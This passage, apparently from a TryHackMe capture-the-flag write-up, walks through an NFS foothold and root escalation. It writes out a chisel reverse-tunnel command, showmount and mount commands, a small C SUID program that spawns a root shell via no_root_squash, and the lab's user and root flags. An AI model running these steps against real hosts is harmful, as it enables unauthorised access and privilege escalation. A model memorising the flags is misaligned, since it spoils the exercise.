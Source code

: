 Alright let's tunnel.

On Victim: `./chisel <attacked_ip>:<attacked_port> R:2049:localhost:2049`

On Attacker: `chisel server --reverse --port 9999`

Got it!. Lets check if I can see NFS or not. 

Command: `showmount -e localhost`

Output: `clnt_create: RPC: Timed out`

Now what? Hereby I decided to look for walkthroughs... cause I had no more ideas. In the walkthrough I looked through it was listing `/home/james` as output for the showmount command. Why I ain't getting that? Maybe I did something wrong with the tunnneling?... It was right.
Spent an hour figuring this thing out. Did not work. Redeployed the machine. Now not able create a stable shell. WTH... it worked last 2 times but not now? Spent some more time.
Redeployed the machine and it worked. Created a stable shell. Again did tunnneling but still not able to get the expected output for showmount. Not sure what's wrong. Well lets try mounting it (Well how would it work if it wasn't able to check for it- inner me). 

`sudo mount -t nfs locahost:/ nfs/`

It mounted... I suffered all that for nothing?... well whatever `ls -al`

Finally got user flag.

`thm{3693fc86661faa21f16ac9508a43e1ae}`

Also there is **.ssh** dir having key for james. Copied it. Of-course how would it work as didn't work for paradox. It worked... I don't know anything anymore. (Despair level max)

## Root-flag

**no_root_squash** in /etc/exports

What it means:

```
no_root_squash : This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.
```

How I interpreted it:
```
Any file uploaded will be treated as file uploaded by root user.
```

Messed with this for about 10 mins when I finally realized the true meaning of those words.

**Upload files as root user on the nfs share**. Now lets check the file perms using james ssh. It uploaded as root and as it had perms 777 I could freely use it. OK let's create a simple C program for getting shell as root when executed.

```
void main(void){
    setresuid(0, 0, 0);
    system("/bin/sh");
}
```

Compiled the above code and uploaded the binary using nfs share as **root**. Changed the permssions and set suid bit. SSH again into james user and execute the binary to get the root shell. Just cat the root flag now.

`thm{a4f6adb70371a4bceb32988417456c44}`

